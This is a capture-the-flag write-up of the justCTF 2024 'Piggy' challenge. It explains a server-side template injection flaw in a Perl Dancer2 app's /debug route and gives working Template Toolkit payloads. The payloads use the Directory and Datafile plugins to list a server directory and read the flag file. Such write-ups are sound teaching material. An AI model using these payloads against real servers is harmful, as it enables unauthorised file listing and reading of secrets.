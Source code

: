 # Piggy

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @siunam
- Contributor: @jose.fk
- 61 solves / 180 points
- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

Who is such a piggy (ツ)

_Many players ask about piggy being broken (missing flag.txt) but it works as intended._

- [http://piggy.web.jctf.pro](http://piggy.web.jctf.pro)
    
- https://s3.cdn.justctf.team/f2af71a7-f199-47a7-9934-013a168a76f7/piggy_docker.tar.gz

![](https://github.com/siunam321/CTF-Writeups/blob/main/justCTF-2024-teaser/images/Pasted%20image%2020240616160252.png)

## Enumeration

**Index page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/justCTF-2024-teaser/images/Pasted%20image%2020240616161132.png)

In here, it is just a welcome page, nothing special. Hmm... Let's read the source code of this web application!

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/justCTF-2024-teaser/Web/Piggy/piggy_docker.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/justCTF-2024-teaser/Web/Piggy)-[2024.06.16|16:15:43(HKT)]
└> file piggy_docker.tar.gz 
piggy_docker.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 289280
┌[siunam♥Mercury]-(~/ctf/justCTF-2024-teaser/Web/Piggy)-[2024.06.16|16:15:45(HKT)]
└> tar xvzf ./piggy_docker.tar.gz 
./
./Dockerfile
./views/
./views/index.tt
./public/
./public/images/
./public/images/piggy.webp
./config.yml
./app.pl
./flag.txt
./docker-compose.yaml
```

After reviewing the source code, we have the following findings!

- The flag is *seemingly* at `/app/flag.txt` (The `COPY . .` Docker command from the `Dockerfile`)
- This web application is written in Perl's **[Dancer2](https://metacpan.org/pod/Dancer2)** web application framework
- This web application uses Perl's **[Template Toolkit](https://template-toolkit.org/)** to render templates

Let's dive into the web application main logic source code at `app.pl`!

First, at GET route `/`, it just render the template `views/index.tt` with a randomly chosen `greetings` string: 

```perl
[...]
use Dancer2;
use Template;

my @greetings = ("Hello", "Ebe", "Greetings", "Hi", "Good day");

get '/' => sub {
    my $greeting = $greetings[rand @greetings];
    template 'index' => {
        greeting => $greeting
    };
};
[...]
```

`views/index.tt`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Piggy</title>
    <style>
        [...CSS stuff...]
    </style>
</head>
<body>
    <h1>[% greeting %]! Welcome to our app.</h1>
    <p>This is Piggy, your friendly task companion!</p>
    <img src="/images/piggy.webp" alt="Laughing Pig">
</body>
</html>
```

Hmm... Nothing weird and interesting for us in this route.

**However, there's a peculiar POST route at `/debug`:** 
```perl
[...]
post '/debug' => sub {
    my $input = body_parameters->get('debug');
    my $output;
    
    my $template = Template->new({
        INCLUDE_PATH => './views'
    });
    $template->process(\$input, {}, \$output) or die $template->error();
    return $output;
};
[...]
```

In this POST route, we can see that it takes a `debug` POST body parameter, and parses it with the `process` method to render our template literals!

With that said, this POST route is basically **SSTI (Server-Side Template Injection) in Perl's Template Toolkit** for free!

In Template Toolkit's [syntax documentation](https://template-toolkit.org/docs/manual/Syntax.html), the default tag markers are `[%` and `%]`.

**Let's try to let the server to render `49` with `[% 7*7 %]` at POST route `/debug`!**
```http
POST /debug HTTP/1.1
Host: 5al1vghdkve4bhweufft29r3nsvp22.piggy.web.jctf.pro
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

debug=[% 7*7 %]
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/justCTF-2024-teaser/images/Pasted%20image%2020240616163752.png)

Nice! It worked as expected!

Now, how can we read the flag file?

## Exploitation

After digging the [plugins documentation](https://template-toolkit.org/docs/manual/Plugins.html), there're some interesting plugins that are related to reading/listing the file system!

More specifically, plugin "**[Directory](https://template-toolkit.org/docs/manual/Plugins.html#section_Directory)**" and "**[Datafile](https://template-toolkit.org/docs/manual/Plugins.html#section_Datafile)**" can **list all the files** with a provided path and **read files**.

First, let's list all the files at path `/app/` with plugin **Directory**!

**In the [detailed documentation of the plugin Directory](https://template-toolkit.org/docs/modules/Template/Plugin/Directory.html), we can do that with this template syntax:**
```
[% USE dir = Directory('/app/') %]
[% FOREACH file = dir.files %]
    [% file.name %]
[% END %]
```

In this syntax, it lists all the filenames at path `/app/`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/justCTF-2024-teaser/images/Pasted%20image%2020240616165127.png)

Nice! We got the flag's filename. In my case, it's `flag_980aef6e461ca1009ea62da051753b38.txt`.

Then, we can read the flag's file via plugin **Datafile**!

By reading the [detailed documentation of the plugin Datafile](https://template-toolkit.org/docs/modules/Template/Plugin/Datafile.html), we can use this syntax the read the flag file:

```
[% USE flagContent = datafile('/app/flag_980aef6e461ca1009ea62da051753b38.txt') %]
[% FOREACH flag = flagContent %]
   [% flag %]
[% END %]
```

However, if we do that, it just outputs the hash reference to the flag file:

![](https://github.com/siunam321/CTF-Writeups/blob/main/justCTF-2024-teaser/images/Pasted%20image%2020240616165649.png)

In the documentation, it said:

> **The first line defines the field names**, **delimited by colons** with optional surrounding whitespace. Subsequent lines then defines records containing data items, also delimited by colons. [...]

Uhh... Can we set a delimiter character other than a colon (`:`) character?

Luckily, the plugin also allows us to **set the delimiter character via the `delim` parameter**:

```
[% USE things   = datafile('items', delim = '|') %]
```

Hmm... What character should we use for the delimiter character?

**In the local testing flag, we can see the flag file's content:**
```
Here is your fat flag:
justCTF{fake}
```

Ah ha! We can use space character as the delimiter character!

**Now, we should be able to read the flag's content via `flag.Here` using the space character for the delimiter character!**
```
[% USE flagContent = datafile('/app/flag_980aef6e461ca1009ea62da051753b38.txt', delim = ' ') %]
[% FOREACH flag = flagContent %]
   [% flag.Here %]
[% END %]
```

The reason why we use `Here` as the key is because this plugin uses **the first line to define the field names**, and **the delimeter in this case is a space character**. Hence, the first word for each line will be with the field name `Here`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/justCTF-2024-teaser/images/Pasted%20image%2020240616170550.png)

- **Flag: `justCTF{0iNk_oinKxD}`**

## Conclusion

What we've learned:

1. Server-Side Template Injection (SSTI) in Perl "Template Toolkit"